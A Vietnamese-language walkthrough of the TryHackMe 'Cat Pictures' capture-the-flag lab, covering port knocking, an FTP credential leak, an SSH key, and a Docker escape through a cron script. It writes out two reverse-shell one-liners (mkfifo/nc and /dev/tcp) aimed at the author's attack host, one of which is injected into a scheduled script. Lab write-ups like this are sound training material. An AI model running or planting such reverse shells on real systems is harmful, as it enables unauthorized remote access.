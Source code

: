 <div align="center">
    <h1>🐱 TryHackMe Cat Pictures Writeup 🖼️</h1>
</div>

## 🚀 1. Khởi động taget

![Start taget](Images/1.png)

## 🔍2. Recon

- Như thường lệ, quét `nmap` để phát hiện các cổng mở.

![Nmap](Images/2.png)

- Kết quả trả về thông tin một số cổng `21`, `22`, `8080`.

    - Port `21` cho dịch vụ `ftp` đang ở trạng thái `Filtered` `(?)`. Có vẻ có thứ gì đó chặn gói tin đến cổng `21`, và `Nmap` không xác định được trạng thái thực sự của cổng.
    - Port `22` cho dịch vụ `ssh` đang mở.
    - Port `8080` đang chạy `http server`.

- Truy cập thử vào taget với port `8080` ta nhận được một trang diễn đàn tạo bởi `PhpBB`.

![Hoangdeptrai](Images/3.png)

- Sử dụng thử `gobuster` quét thư mục ẩn. Phát hiện một số thư mục khá phổ biến trên các trang web.

![Hoangdeptrai](Images/4.png)

- Tuy nhiên khi truy cập thử vào các thư mục này thì không nhận được kết quả gì đặc biệt, có vẻ không thể khai thác thêm theo cách này.

![Hoangdeptrai](Images/5.png)

## 🔑3. Khai thác trang diễn đàn

- Quay lại trang chính của diễn đàn. thấy duy nhất có một bài viết, truy cập thử bài viết này thì nhận thấy có vẻ là một gợi ý.

![Hoangdeptrai](Images/6.png)

- Có vẻ nó liên quan đến kĩ thuật `Port Knocking`, tìm hiểu một chút về kĩ thuật này.

![Hoangdeptrai](Images/7.png)

- Có thể tóm gọn lại: `Port knocking` là kỹ thuật bảo mật giúp ẩn các cổng dịch vụ trên máy chủ. Chỉ khi người dùng gửi đúng chuỗi yêu cầu kết nối đến các cổng theo thứ tự đã định, hệ thống mới mở cổng cần thiết để cho phép truy cập. Mục tiêu là ngăn quét cổng và giảm nguy cơ tấn công từ bên ngoài.
- Thử sử dụng công cụ `knock` để "gõ" các cổng theo thứ tự gợi ý.
```bash
 knock 10.10.181.195 1111 2222 3333 4444
```

![Hoangdeptrai](Images/8.png)

- Sau khi thực hiện, nhận thấy cổng `21` lúc trước bị `filtered` đã được mở, có lẽ có gì giấu ở đây =))

- Đăng nhập vào dịch vụ `ftp` dưới tên `anonymous`, phát hiện một file `note.txt`.

![Hoangdeptrai](Images/9.png)

- Tải file này về máy và đọc thử.

![Hoangdeptrai](Images/10.png)

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
Connect to port 4420, the password is sardinethecat.
- catlover
```

- Dựa vào đoạn gợi ý, có vẻ ta thu được một mật khẩu là `sardinethecat` và một người dùng là `catlover`.

- Bên cạnh đó là việc gợi ý kết nối tới port `4420`, sử dụng `nc` truy cập tới taget với port kể trên.

![Hoangdeptrai](Images/11.png)

- Nhập mật khẩu là `sardinethecat` nhận được ở trên, ta truy cập vào được một shell của server.

![Hoangdeptrai](Images/12.png)

- Tuy nhiên các lệnh cơ bản cũng không thể chạy trên shell này. Có lẽ nên cố gắng tạo một reverse shell để khai thác tốt hơn.

- Tạo reverse shell sử dụng revshells.com.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.175.20 1234 >/tmp/f
```

![Hoangdeptrai](Images/13.png)

- Chạy thành công lệnh, nhận được shell mới.

![Hoangdeptrai](Images/14.png)

- Một số lệnh vẫn không thực hiện được nhưng ít nhất ta có thể `cd`

- Tìm sâu vào `home`, bên trong thư mục `clatlover` thấy một file `runme`, chạy thử thì file này yêu cầu mật khẩu.

![Hoangdeptrai](Images/15.png)

- Nhập thử mật khẩu thu được từ các bước trên nhưng có vẻ không hoạt động.

- Đọc thử file này, nhận được một chuỗi các kí tự lạ.

![Hoangdeptrai](Images/16.png)

- Tuy nhiên nếu đọc kĩ trong đó, thu được một số thông tin có thể đọc được.

![Hoangdeptrai](Images/17.png)

- Một mật khẩu nào đó được nhập, có vẻ là `rebecca`. Thử chạy lại file `runme` với mật khẩu này.

![Hoangdeptrai](Images/18.png)

- Ta thu được một file chứa `RSA` private key

![Hoangdeptrai](Images/19.png)

- Có vẻ có thể đăng nhập `SSH` bằng key này, vì thế ta tải về và thử đăng nhập. `rsa` key này không có mật khẩu

![Hoangdeptrai](Images/20.png)

- Đăng nhập thành công, truy cập được vào id `root`

![Hoangdeptrai](Images/21.png)

- Tìm file flag.
```bash
find / -name "flag.txt" 2>/dev/null
```

![Hoangdeptrai](Images/22.png)

=> Tìm được flag đầu tiên. 🚩🚩🚩

- Trong quá trình tìm root flag, tôi nhận ra có vẻ như shell này đang ở trong `docker container`, cần tìm cách thoát khỏi nó.

![Hoangdeptrai](Images/23.png)

- Tìm kiếm tất cả các file và thư mục trong container này.

![Hoangdeptrai](Images/24.png)

- Có thể tìm được gì đó trong file `.bash_history`

![Hoangdeptrai](Images/25.png)

- Theo đó, nhận thấy một file được tương tác là `/opt/clean/clean.sh` và có vẻ nó được chạy `cronjob` - lệnh tự động chạy theo lịch định sẵn trên hệ điều hành Linux.

- Nếu thay đổi file này, có thể tạo reverse shell đến `root` của server.

![Hoangdeptrai](Images/26.png)

- Chèn reverse shell vào file kể trên.

```bash
/bin/sh -i >& /dev/tcp/10.21.175.20/4444 0>&1
```

![Hoangdeptrai](Images/27.png)

- Lưu lại file, sau đó việc cần làm là đợi vài phút để file thực thi tự động.

- Nếu thành công, ta nhận được `root shell`

![Hoangdeptrai](Images/28.png)

- Giờ việc đơn giản còn lại là tìm nốt root flag

![Hoangdeptrai](Images/29.png)

=> Tìm được `root flag` 🚩🚩🚩


![Hoangdeptrai](Images/30.png)

![Hoangdeptrai](Images/31.png)

=> Hoàn thành bài lab :)) 🎉🎉🎉